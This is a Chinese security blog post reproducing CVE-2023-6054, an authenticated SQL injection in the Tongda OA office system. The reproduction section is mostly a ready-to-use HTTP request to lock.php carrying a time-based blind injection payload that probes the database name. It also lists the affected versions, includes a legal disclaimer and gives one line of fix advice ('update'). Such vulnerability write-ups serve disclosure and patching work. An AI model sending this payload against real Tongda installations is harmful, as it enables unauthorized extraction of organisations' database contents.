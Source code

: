 #  【漏洞复现】通达OA SQL注入漏洞（CVE-2023-6054）   
紫色皓月  皓月的笔记本   2023-11-26 23:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。请遵守《中华人民共和国网络安全法》。  
  
0X01 简介  
  
通达OA（Office Anywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。  
  
  
  
官网：  
  
https://www.tongda2000.com/  
  
  
漏洞编号：  
  
CVE-2023-6054  
  
  
  
影响范围：  
  
通达OA >= 2017版  
  
通达OA <= 11.10  
  
  
复现环境：  
  
通达OA 2017版  
  
  
0X02   
漏洞复现  
  
漏洞利用需登录，还需要知识库权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucoJakfX0utGlC0YU7SPwIzv8vBdge7sL7hjz7fmuuQ50XLywwIgLZ6Kw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
POC：  
```
GET /general/wiki/cp/manage/lock.php?TYPE=LOCK&TERM_ID_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.245.134
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=620a3f5c; _csrf=fb9605328bee63ab5b949c268b858d698cf75170a848c7b0882a2b8a14d66f71a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22dJ8hKTNoKf_MTAQdu5ag7otcWNXsBgUm%22%3B%7D; creat_work=new; PHPSESSID=uim7dre68mjnos5qhk7oljv264; SID_66=1ca61957
Upgrade-Insecure-Requests: 1

TYPE=LOCK或UNLOCK才能触发漏洞，右下角查看延时
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucomKGPUaFawibPENW1icFRK1dZwvQkqPCwHXwtFn7I1dVhuuzyEUYIc8gg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucockz7Cjc5RQXiaBc4BogaF9ngBd6mWb9WVdb19CcchOE56RHNAUZQqZA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
0X03 修复建议  
  
更新至最新版！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
